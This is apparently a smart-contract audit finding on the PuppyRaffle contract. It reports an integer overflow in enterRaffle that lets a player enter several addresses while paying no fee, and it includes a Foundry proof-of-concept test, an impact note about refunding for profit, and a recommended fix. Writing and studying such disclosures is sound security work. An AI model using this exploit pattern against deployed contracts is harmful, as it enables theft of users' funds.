 ## Vulnerability Details

`PuppyRaffle::enterRaffle` does not check for an overflow. If a user inputs many addresses that multiplied with `entranceFee` would exceed `type(uint256).max` the checked amount for `msg.value` overflows back to 0.

```solidity
function enterRaffle(address[] memory newPlayers) public payable {
=>  require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    ...
```

To see for yourself, you can paste this function into `PuppyRaffleTest.t.sol` and run `forge test --mt testCanEnterManyAndPayLess`.
```solidity
function testCanEnterManyAndPayLess() public {
        uint256 entranceFee = type(uint256).max / 2 + 1; // half of max value
        puppyRaffle = new PuppyRaffle(
            entranceFee,
            feeAddress,
            duration
        );

        address[] memory players = new address[](2); // enter two players
        players[0] = playerOne;
        players[1] = playerTwo;

        puppyRaffle.enterRaffle{value: 0}(players); // user pays no fee
    }
```

This solidity test provides an example for an entranceFee that is slightly above half the max `uint256` value. The user can input two addresses and pay no fee. You could imagine the same working with lower base entrance fees and a longer address array.


## Impact

This is a critical high-severity vulnerability as anyone could enter multiple addresses and pay no fee, gaining an unfair advantage in this lottery.

Not only does the player gain an advantage in the lottery. The player could also just refund all of his positions and gain financially.

## Tools Used

- Manual review
- Foundry

## Recommendations
Revert the function call if `entranceFee * newPlayers.length` exceeds the `uint256` limit. Using openzeppelin's SafeMath library is also an option.
